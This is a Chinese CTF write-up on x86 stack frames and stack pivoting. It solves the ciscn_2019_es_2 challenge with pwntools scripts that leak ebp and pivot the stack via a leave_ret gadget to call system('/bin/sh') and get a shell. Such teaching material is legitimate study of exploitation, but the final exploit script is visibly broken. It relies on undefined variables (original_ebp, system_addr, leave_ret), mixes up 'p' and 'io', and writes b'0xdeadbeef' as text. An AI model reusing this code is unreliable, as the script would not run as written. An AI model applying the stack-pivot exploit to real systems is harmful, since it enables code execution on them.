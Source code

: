 ## 1. C语言函数调用栈帧
### 1.1 知识铺垫
函数调用常用的寄存器有
- ebp  栈底指针
- esp  栈顶指针
- eip  程序当前运行位置的指针

函数栈帧结构
![./photo/1.jpg](./photo/1.jpg)


常见函数调用反汇编代码如下
```
call  function   以main函数调用function为例

function:
push ebp
mov ebp, esp
sub esp, 0x100
....
....
....
mov esp, ebp
pop ebp
ret 
```
1. 返回地址入栈，保存main当前函数执行位置
2. push ebp  将main函数的ebp入栈，保存main函数栈底指针。称为old ebp
3. mov ebp, esp  ebp=esp  将esp和ebp指针都执行栈底。
4. sub esp,0x100 在栈上分配xxx字节的临时空间。栈顶指针抬高。
5. ......
6. ......
7. mov esp, ebp ; pop ebp  常见为leave指令。将栈底指针赋值给栈顶指针，esp = ebp,释放栈空间。pop ebp将old ebp弹出赋值给ebp，即main函数的ebp
8. ret 即pop eip

ret 指令理解：/*取栈顶的数据作为下次跳转的位置*/即
- eip = [esp]
- esp = esp + 4
ret 会修改eip和esp的值，就相当于pop eip（pop指令会附加esp的移动，意思是取栈顶的数据作为下次跳转的位置），然后执行jump。

相比之下，call指令即 push  eip(此时eip为call指令的下一条指令的地址，意思是将call指令的下一条地址入栈)然后jump。

32位函数调用栈帧变化
![./photo/2.jpg](./photo/2.jpg)
![](./photo/3.jpg)
主要就是注意栈帧的变化。
## 栈迁移
为什么需要栈迁移？

栈溢出在构造rop链时，可能会遇到构造空间不够的情况，比如需要构造48字节的数据，但read只能读入40字节。但是我们可以控制ebp及ret的值。此时可以利用栈迁移的方法拓展栈空间。

栈迁移的条件？

可以控制rbp或者ret
控制一块可执行的内存，并且可以连续两次控制该内存。

栈迁移的技术原理？

函数调用结束。一般会执行leave  ret两条汇编指令
```
leave  :   mov esp, ebp
           pop ebp
ret    :   pop eip
```
pop ebp 后，esp指针指向返回地址。但是如果返回地址指向的是leave指令的地址。会再次执行 mov esp, ebp ，即可以将esp栈顶指针重新赋值。而ebp是可以进行控制。从而将栈帧移动到一个新的位置。
在攻击时需要连续两次执行leave_ret，从而控制函数返回地址。一般函数在执行完成返回时，会自动执行一次leave_ret。所以在攻击时，要先将ebp改为新栈帧的地址，再将ret地址改为leave_ret的地址，便可以达到连续两次执行leave_ret的目的。

栈迁移过程
1. 首先确定缓冲区变量在溢出时可以覆盖栈上ebp和ret两个位置
2. 选取要被劫持到的目的地址，例如bss内存段，记作bss_addr
3. 寻找leave_ret gadget地址，记作leave_ret
4. 设置缓冲区变量，将ebp地址赋值为bss_addr-4, 将ret覆盖为leave_ret.
![./photo/4.jpg](./photo/4.jpg)
![./photo/5.jpg](./photo/5.jpg)
![./photo/6.jpg](./photo/6.jpg)
5. pop eip后执行伪造的leave_ret。
![./photo/7.jpg](./photo/7.jpg)
![./photo/8.jpg](./photo/8.jpg)
以上过程即可将esp指向bss等可以写入shellcode的数据段

## 3. 题目练习1——ciscn_2019_es_2
题目链接 https://buuoj.cn/challenges#ciscn_2019_es_2
### 3.1 题目信息
![./photo/9.jpg](./photo/9.jpg)
![./photo/10.jpg](./photo/10.jpg)
read可以读取48个字节，但栈空间溢出后只剩8字节，所以需要使用到栈迁移、迁移空间足够后，需要知道/bin/sh的地址，这个可以通过read输入。但需要计算其地址，计算偏移。
### 3.2 解题过程
1. 泄露ebp基址

![./photo/11.jpg](./photo/11.jpg)

40字节的缓冲区+4字节ebp。如果输入40字节的字符串数据，%s会将后面的ebp数据也会打印出来
```
from pwn import *
io = process('./ciscn_2019_es_2')
payload = flat(['a'*0x27,'b'])
io.sendafter("Welcome, my friend. What's your name?",payload)
io.recvuntil('b')
ebp_addr = u32(io.recv(4))
print(hex(ebp_addr))
```
2. 计算要迁移的基址
   可以尝试迁移到栈上或者bss数据段。这里迁移到栈上。这里就要计算数据输入距离ebp的位置。
![./photo/12.png](./photo/12.png)

3. 计算system的地址
程序中提供有system函数
![./photo/13.jpg](./photo/13.jpg)
system_addr = elf.symbols['system']
print(hex(system_addr))
4. 获取leave_ret地址
![./photo/14.jpg](./photo/14.jpg)
5. 构造payload
   payload = p32(system_addr)+p32(0xdeadbeef)+p32(bin_sh_offset)+p64('/bin/sh\x00')+p32(ebp_addr-0x38-4)+p32(leave_ret)
```
from pwn import *
io = process('./ciscn_2019_es_2')
payload = flat(['a'*0x27,'b'])
io.sendafter("Welcome, my friend. What's your name?",payload)
io.recvuntil('b')
ebp_addr = u32(io.recv(4))
print(hex(ebp_addr))

payload2 = p32(system_addr)
payload2 += b'0xdeadbeef'     # 返回地址
payload2 += p32(original_ebp - 44)  # /bin/sh在栈中的偏移，计算得出的是地址。
payload2 += b'/bin/sh\x00' #   8个字节，4字节对齐
payload2 = payload2.ljust(0x28, b'p')

payload2 += p32(original_ebp - 0x38 -4) # 
payload2 += p32(leave_ret) 

p.sendline(payload2)
p.interactive()
```
这里的0x28和
![./photo/15.jpg](./photo/15.jpg)
## 参考链接
[函数调用栈帧](https://blog.csdn.net/m0_53921051/article/details/123969071?spm=1001.2014.3001.5501)

[栈迁移](https://www.cnblogs.com/max1z/p/15299000.html)

[栈迁移](https://blog.csdn.net/m0_53921051/article/details/123969983)
